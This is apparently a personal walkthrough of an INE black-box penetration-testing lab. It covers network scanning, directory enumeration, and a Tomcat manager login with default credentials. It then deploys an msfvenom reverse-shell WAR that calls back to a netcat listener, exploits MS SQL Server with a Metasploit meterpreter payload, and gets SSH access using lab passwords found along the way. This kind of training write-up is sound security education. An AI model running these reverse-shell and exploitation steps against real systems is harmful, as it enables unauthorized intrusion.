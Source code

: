 # Rachel Murphy
# INE-8/20/21
# Black Box Pen Test 1

# Scenario
- You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range). Your goal is to read the flag file on each machine. On some of them, you will be required to exploit a remote code execution vulnerability in order to read the flag.
- Some machines are exploitable instantly but some might require exploiting other ones first. Enumerate every compromised machine to identify valuable information, that will help you proceed further into the environment.
- If you are stuck on one of the machines, don't overthink and start pentesting another one.
- When you read the flag file, you can be sure that the machine was successfully compromised. But keep your eyes open - apart from the flag, other useful information may be present on the system.

# Goals
- Discover and exploit all the machines on the network
- Read all flag files (one per machine)

# What you will learn
- How to exploit Apache Tomcat
- How to exploit SQL server
- Post Exploitation Discovery
- Arbitrary file upload exploitation

# Recommended Tools
- Dirb
- Metasploit framework
- Nmap 
- Netcat

---

1. Find alive hosts on the network.

`nmap -sn 172.16.64.0/24`

```
Nmap scan report for 172.16.64.101
Host is up (0.12s latency).
MAC Address: 00:50:56:A2:52:F0 (VMware)
Nmap scan report for 172.16.64.140
Host is up (0.11s latency).
MAC Address: 00:50:56:A2:E4:85 (VMware)
Nmap scan report for 172.16.64.182
Host is up (0.059s latency).
MAC Address: 00:50:56:A2:B1:61 (VMware)
Nmap scan report for 172.16.64.199
Host is up (0.057s latency).
MAC Address: 00:50:56:A2:BF:51 (VMware)
Nmap scan report for 172.16.64.10
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 5.24 seconds
```
Five hosts are up.

Performing service detection scan against all targets.

`sudo nmap -sV -sS -v 172.16.64.10,101,140,182,199 -oN servicescan.txt`

Nmap results for `172.16.64.101` -pwn. 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
9080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:50:56:A2:52:F0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap results for `172.16.64.140` -

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:50:56:A2:E4:85 (VMware)
```
Nmap results for `172.16.64.182`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
MAC Address: 00:50:56:A2:B1:61 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap results for `172.16.64.199`

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2014 12.00.2000
MAC Address: 00:50:56:A2:BF:51 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
- Beginning with `172.16.64.101` and visiting the webserver over port 8080.

Using DIRB with `dirb http://172.16.64.101:8080/ /usr/share/dirb/wordlists/vulns/apache.txt`

Apache Tomcat Manager Auth Page at http://172.16.64.101:9080

Logged into webapp with username: tomcat password: s3cret

Uploaded .war file exploit with msfvenom (USE LHOST VPN IP!!)
`msfvenom -p java/shell_reverse_tcp lhost=172.16.64.10 lport=1996 -f war -o 2pwn.war`
Set up netcat listener and then deploy the 2pwn .war file
`nc -lvnp 1996` 
Remote connection made and locate the flag.txt files with `locate flag.txt`

- Next target http://172.16.64.140:80
- Apache httpd 2.4.18
Enumerating directories with dirb.
`dirb http://172.16.64.140:80 /usr/share/wordlists/dirb/common.txt`
Navigated to the /project directory
Entered credentials: admin:admin
and.....accessed web browser.

![project](https://user-images.githubusercontent.com/76081641/130362887-cbf7e30f-e553-4e92-8348-a3ebfa057e4c.png)

Enumerate harder.

dirb http://172.16.64.140/project -u admin:admin 

INTERESTING DIRECTORY

http://172.16.64.140/project/backup/test/sdadas.txt

Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt

![mysqlcreds](https://user-images.githubusercontent.com/76081641/130326946-f9519d7e-60da-4d55-a8a1-499906bcd998.png)


Perform a simple directory traversal to read the flag.txt file. 

http://172.16.64.140/project/354253425234234/flag.txt

![flag](https://user-images.githubusercontent.com/76081641/130362852-522c7135-a21b-4a26-947c-94ebb2d228f5.png)


- Next target `172.16.64.182` - This ended up being the last machine because the ssh user credentials were stored in the windows machine. 

Recalling the nmap scan 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
MAC Address: 00:50:56:A2:B1:61 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Next target `172.16.64.199`

Recalling the nmap scan 

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2014 12.00.2000
MAC Address: 00:50:56:A2:BF:51 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Most likely a null session or mssql vulnerability.

Enumerating with nmap for null sessions.

`enum4linux -a 172.16.64.199`

![image](https://user-images.githubusercontent.com/76081641/130455544-9abda385-cc7b-479e-ac11-8acb82f9a031.png)

Using metasploit to automate reconnaissance of the MS SQL Server.
Using database credentials found fooadmin:fooadmin to log in. 

![image](https://user-images.githubusercontent.com/76081641/130457410-2aca903a-22f2-40e9-8bd5-dd146b444595.png)

System Administrator Logins and Windows Logins for the Server

![image](https://user-images.githubusercontent.com/76081641/130458271-3d4f3c36-3ec9-4196-8432-081a0fe47a45.png)

Fooadmin has administratice privileges. 

Using an additional module in metasploit to gain a reverse shell on the mssql server.

`use exploit/windows/mssql/mssql_payload`

Configuring the module with the `windows/x64/meterpreter_reverse_tcp`

![image](https://user-images.githubusercontent.com/76081641/130459672-fdabab49-a6d2-4912-933c-da8805ed49b8.png)

IT WORKED!!! Gained a meterpreter shell.

Spawn remote shell with `shell cd c:\Users dir`

![image](https://user-images.githubusercontent.com/76081641/130460441-bf64c4f3-8078-4298-9029-de966695f4e1.png)

Exploring remote machine and locate flag in `C:\Users\AdminELS\Desktop`

![image](https://user-images.githubusercontent.com/76081641/130461225-7a0074f0-2857-4957-b4f1-123892be32d7.png)

Searching for SSH log in credentials for the Linux machine. Located id_rsa.pub within on the AdminELS Desktop.

![image](https://user-images.githubusercontent.com/76081641/130466625-01fb6bcf-0d0d-4736-8073-4c40af0d89a5.png)

`ssh://developer:dF3334slKw@172.16.64.182:22#############################################################################################################################################################################################`

Weird. Where is the private key..

`ssh dF3334slKw@172.16.64.182 `

Should be `ssh developer@172.16.64.182`

Password: dF3334slKw

![image](https://user-images.githubusercontent.com/76081641/130468162-8bae8f29-0e72-4353-b3a2-9387d4155aca.png)

LAST FLAG!!!

![image](https://user-images.githubusercontent.com/76081641/130468356-b2116ec9-7479-4d55-9645-5ce2c663b6ea.png)
